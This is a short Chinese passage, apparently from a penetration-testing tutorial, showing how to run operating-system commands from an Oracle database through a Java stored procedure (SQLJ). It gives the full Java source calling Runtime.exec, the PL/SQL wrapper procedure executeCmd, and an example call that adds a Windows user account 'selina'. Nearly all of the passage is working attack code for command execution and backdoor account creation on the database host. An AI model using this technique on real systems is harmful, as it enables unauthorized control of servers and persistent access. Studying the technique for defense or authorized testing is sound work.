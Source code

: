 ##### SQLJ 执行 cmd 命令：

方法这里和上面几乎大同小异，一样的提供一个静态方法，然后去创建一个存储过程。然后调用 Java 里的方法去执行命令。

创建 Java 存储过程:

```
create or replace and compile java source named "Execute" as   
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Execute {
    public static void executeCmd(String c) {
        try {
            String l="",t;
            BufferedReader br = new BufferedReader(new InputStreamReader(java.lang.Runtime.getRuntime().exec(c).getInputStream(),"gbk"));
            while((t=br.readLine())!=null){
                l+=t+"\n";
            }
            System.out.println(l);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
} 
```

创建存储过程 executeCmd：

```
create or replace procedure executeCmd(c in varchar2)
as
language java name 'Execute.executeCmd(java.lang.String)'; 
```

执行存储过程：

```
exec executeCmd('net user selina 123 /add'); 
```
